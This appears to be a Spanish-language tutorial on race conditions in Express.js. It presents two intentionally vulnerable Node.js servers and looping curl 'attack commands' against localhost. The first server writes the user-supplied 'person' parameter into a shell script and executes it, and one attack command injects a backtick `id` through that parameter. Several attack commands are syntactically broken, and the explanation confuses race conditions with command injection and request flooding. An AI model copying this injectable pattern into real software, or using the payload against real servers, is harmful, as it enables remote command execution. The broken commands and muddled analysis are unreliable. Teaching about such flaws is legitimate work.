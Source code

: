 Las condiciones de carrera (race conditions) son una clase de vulnerabilidades comunes en aplicaciones concurrentes donde el comportamiento del software depende del orden de ejecución de eventos. En entornos web, estas vulnerabilidades pueden ser explotadas por atacantes para obtener acceso no autorizado, ejecutar comandos maliciosos o manipular datos de forma inesperada. A continuación, se presentan dos ejemplos de códigos Express.js que exhiben vulnerabilidades de race condition y cómo un atacante podría explotarlas:

### Ejemplo 1: Vulnerabilidad de Condiciones de Carrera en Node.js

#### Código Vulnerable:
```javascript
const express = require("express");
const app = express();
const { exec } = require("child_process");
const { execSync } = require("child_process");
const fs = require("fs");

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("/", (req, res) => {
  let hello = "";
  let action = req.query.action ? req.query.action : "run";
  if (action === "validate") {
    let person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
    }
  } else if (action == "reset") {
    boot_clean();
    boot_reset();
    boot_run();
  } else {
    boot_run();
    try {
      hello = fs.readFileSync("hello.txt", "utf8").toString();
    } catch (error) {
      hello = "Important hello file is missing, please reset.";
      boot_clean();
      boot_reset();
      boot_run();
    }
  }
  res.render("index.ejs", { action: action, hello: hello });
});

app.use(function (req, res) {
  res.status(404).render("404.ejs");
});

const boot_validate = (person) => {
  fs.writeFileSync("hello.sh", 'echo "' + person + '" > hello.txt');
  exec("echo 'hello.sh updated -- " + Date.now() + "' > log.txt");
  exec("echo 'hello.sh cleaned -- " + Date.now() + "' >> log.txt");
  exec("bash hello.sh");
  const valid = () => {
    return execSync(
      "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh"
    ).toString();
  };
  return valid();
};

const boot_clean = () => {
  exec(`rm hello.txt`);
};

const boot_run = () => {
  exec(`bash hello.sh`);
};

const boot_reset = () => {
  fs.writeFileSync("hello.sh", "echo 'Default User' > hello.txt");
};

const port = process.env.PORT || 5000;

app.listen(port, "0.0.0.0", () => console.log(`Listening on port ${port}...!!!`));
```

#### Análisis:
- **Causa de la Condiciones de Carrera:** En este caso, la condición de carrera surge debido a la concurrencia no controlada en el manejo de solicitudes HTTP. Específicamente, los dos comandos de ataque están diseñados para enviar múltiples solicitudes simultáneas al servidor, lo que podría causar conflictos en el acceso y manipulación de los recursos compartidos, como archivos o variables de estado.

#### Descripción de los Comandos de Ataque:
1. **Comando de Ataque 1:** 
```bash
while true; do curl -s -X GET 'http://localhost:5000/action=run' | grep "Check this out" | html2text | xargs | grep -vE "hola|Important|Default User; done
```

   Este comando realiza solicitudes HTTP repetidas al endpoint "/action=run". El resultado de cada solicitud se filtra para encontrar líneas que contienen "Check this out", que luego se convierten en texto sin formato con `html2text`. Finalmente, se filtran nuevamente para eliminar líneas que contienen las palabras "hola", "Important", o "Default User". Este bucle infinito puede sobrecargar el servidor y causar comportamientos inesperados como por ejemplo podriamos ver el resultado del siguiente comando que inyecta un comando si no se gestiona adecuadamente la concurrencia en la manipulación de las solicitudes entrantes.

2. **Comando de Ataque 2:**
```bash
while true; do curl -s -X GET 'http://localhost:5000/?person=`id`&action=validate'"
```
   

 Este comando también realiza solicitudes HTTP repetidas, pero en este caso, al endpoint "/?person=`id`&action=validate". Aquí, el atacante aprovecha una vulnerabilidad de inyección de comandos al pasar el resultado de `id` como el parámetro "person". Si el servidor no sanitiza correctamente esta entrada, podría ejecutar comandos maliciosos en lugar de un nombre de usuario válido. Este ataque podría llevar a la ejecución no autorizada de comandos en el servidor.

### Ejemplo 2: Vulnerabilidad de Condiciones de Carrera en Node.js

#### Código Vulnerable:
```javascript
const express = require("express");
const app = express();
const fs = require("fs");

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("/", (req, res) => {
  res.render("index.ejs", { mode: null, os_result: null, print_result: null });
});

app.get("/:value", (req, res) => {
  fs.writeFileSync("shared-file.txt", req.params.value);
  fs.open("shared-file.txt", "r", (err, fd) => {
    let file = fs.readFileSync("shared-file.txt", "utf8");
    res.setHeader("Content-Type", "text/html", "charset=utf-8");
    res.setHeader(
      "Content-Disposition",
      "attachment; filename=shared-file.txt"
    );
    res.sendFile(__dirname + "/shared-file.txt");
  });
});

app.use(function (req, res) {
  res.status(404).render("404.ejs");
});

const port = process.env.PORT || 5000;

app.listen(port, "0.0.0.0", () => console.log(`Listening on port ${port}...!!!`));
```

#### Análisis:
- **Causa de la Condiciones de Carrera:** En este caso, la condición de carrera ocurre debido a la manipulación insegura de archivos compartidos por parte del servidor. Cuando múltiples solicitudes intentan escribir en el mismo archivo simultáneamente, puede haber conflictos en la lectura y escritura que conducen a resultados impredecibles.

#### Descripción del Comando de Ataque:
- **Comando de Ataque:**
```bash
while true; do curl -s -X GET 'http://localhost:5000/hola' | grep -v "hola"; done
```  
 Este comando envía solicitudes HTTP repetidas al endpoint "/hola". Cada solicitud es seguida por una tubería (`|`) que pasa la salida a `grep -v "hola"`. Esto significa que la respuesta del servidor que contiene la palabra "hola" será excluida. Al hacerlo repetidamente en un bucle infinito, el atacante puede causar la creación continua de archivos "shared-file.txt" con contenido distinto al esperado, lo que podría interferir con las operaciones normales del sistema y permitir el acceso no autorizado a archivos compartidos.